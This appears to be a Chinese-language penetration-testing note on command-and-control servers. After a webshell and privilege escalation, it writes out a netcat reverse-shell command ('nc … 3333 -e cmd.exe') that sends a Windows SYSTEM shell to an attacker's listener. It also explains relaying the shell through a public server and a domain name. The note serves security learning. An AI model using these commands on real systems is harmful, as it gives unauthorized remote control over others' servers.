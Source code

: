 



# C&C 服务器 Command and Control Server

命令和控制服务器

- 通常在做渗透测试的时候，在拿到一个 webshell 的时候，需要对服务器进行提权操作
- 如果是一台 windows 的服务器，提权的时候通常是利用本地提权漏洞的 exp 进行溢出提权，有些 exp 可以直接在后面加参数，溢出成功之后执行参数中的命令，而有的 exp 溢出成功之后是返回一个 system 权限的 cmd，这时就需要将低权限的 cmd shell 反弹回本地，



在本地执行:

```bash
# 这里使用 nc 在本地执行：
nc -vv -lp 3333
# 在本地监听一个 3333 端口等待连接，
# 假设你的电脑 IP 是公网 114.114.114.114，


# 然后在目标服务器就可以执行：
nc 114.114.114.114 3333 -e cmd.exe
# 上面的命令就可以把远程服务器的服务器权限的 cmd shell 返回到本地，
# 通过 nc 建立的这个 shell 进行通信，发送你要执行的命令，在远程服务器接收到命令之后执行并将结果返回给你，
# 这时你的本机电脑就是一个简易的 C&C 服务器
```

![Screen Shot 2020-12-02 at 02.17.42](https://i.loli.net/2020/12/02/SpczfnQ68NFYmZd.png)


本机电脑是在内网中，没有公网 IP，目标服务器也在内网，这时目标不能直接通过 IP 地址连接到你本机:

```bash
# 必须有一个公网的 IP，只有这样内网的服务器才可以访问进行连接，所以可以使用一台中转服务器，
# 中转服务器公网 IP 111.111.111.111
# 不管是目标服务器还是本机都可以访问这台中转服务器，这里中转服务器的作用就是将本地内网的主机监听的端口映射到公网 IP 的某个端口，这样目标机访问中转服务器监听的端口就相当于访问了本地监听的端口。
```

![Screen Shot 2020-12-02 at 02.22.41](https://i.loli.net/2020/12/02/KPkXMCvoUD9qgHO.png)


由于 IP 地址是随着中转服务器的变化而变化的，每次 IP 的 变化都会导致整个过程都要重新操作一次，每个命令语句都要进行修改


解决这个问题: 域名
将上面语句中的 IP 地址修改为注册的域名，然后将域名解析到的中转服务器，这样即使更换了中转服务器，也不需要更改执行过的命令。



.